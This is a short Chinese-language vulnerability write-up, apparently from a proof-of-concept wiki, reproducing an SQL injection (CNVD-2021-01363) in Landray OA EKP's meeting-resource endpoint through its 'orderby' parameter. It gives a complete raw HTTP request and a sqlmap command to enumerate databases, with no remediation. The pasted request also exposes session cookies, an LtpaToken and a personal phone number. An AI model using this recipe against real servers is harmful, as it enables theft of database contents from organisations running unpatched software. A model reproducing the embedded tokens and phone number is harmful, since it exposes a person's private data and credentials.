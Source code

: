 # 蓝凌OA EKP 后台SQL注入漏洞 CNVD-2021-01363

## 漏洞描述

深圳市蓝凌软件股份有限公司数字OA(EKP)存在SQL注入漏洞。攻击者可利用漏洞获取数据库敏感信息。

## 漏洞影响

> [!NOTE]
>
> 测试时间 2021-3-24 前版本

## 漏洞复现

存在SQL注入的 Url为,这里拿官方的演示站点演示漏洞过程

```
https://xxx.xxx.xxx.xxx/km/imeeting/km_imeeting_res/kmImeetingRes.do?contentType=json&method=listUse&orderby=1&ordertype=down&s_ajax=true
```

其中存在SQL注入的参数为 **ordeby** ， 数据包如下

```sql
GET /km/imeeting/km_imeeting_res/kmImeetingRes.do?contentType=json&method=listUse&orderby=1&ordertype=down&s_ajax=true HTTP/1.1
Host: xxx.xxx.xxx.xxx
Connection: close
Pragma: no-cache
Cache-Control: no-cache
sec-ch-ua: "Google Chrome";v="89", "Chromium";v="89", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: UM_distinctid=1785f7392888e1-02ece8c7e9a996-5771031-1fa400-1785f73928943d; landray_danyuan=null; landray_guanjianci=null; landray_sorce=baidupinzhuanwy; landray_jihua=null; JSESSIONID=232B6933CF33B5422F9D2649739D48FE; Hm_lvt_223eecc93377a093d4111a2d7ea28f51=1616509114,1616566341,1616566350; Hm_lpvt_223eecc93377a093d4111a2d7ea28f51=1616566350; Hm_lvt_d14cb406f01f8101884d7cf81981d8bb=1616509114,1616566341,1616566350; Hm_lpvt_d14cb406f01f8101884d7cf81981d8bb=1616566507; Hm_lvt_95f4f43e7aa1fe68a51c44ae4eed925d=1616509872,1616509969,1616509973,1616566507; Hm_lpvt_95f4f43e7aa1fe68a51c44ae4eed925d=1616566507; Hm_lvt_22f1fea4412727d23e6a998a4b46f2ab=1616509872,1616509969,1616509973,1616566507; Hm_lpvt_22f1fea4412727d23e6a998a4b46f2ab=1616566507; fd_name=%E5%95%8A%E7%9A%84%E5%93%88; fd_id=1785f817dd0f5a4beaa482646cb9a2d8; nc_phone=15572002383; j_lang=zh-CN; LtpaToken=AAECAzYwNUFEOEZBNjA1QjgxQkFsdW9stJ5e1pcW1hgQi3cOa0iEyAhdZZs=; Hm_lvt_95cec2a2f107db33ad817ed8e4a3073b=1616510026,1616566523; Hm_lpvt_95cec2a2f107db33ad817ed8e4a3073b=1616566523; add_customer=0
```

保存为文件，使用 Sqlmap 跑一下注入 

```
sqlmap -r sql.txt -p orderby --dbs
```

![](http://wikioss.peiqi.tech/vuln/lanling-1.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## 感谢名单

感谢 @Miaòa 师傅的投稿
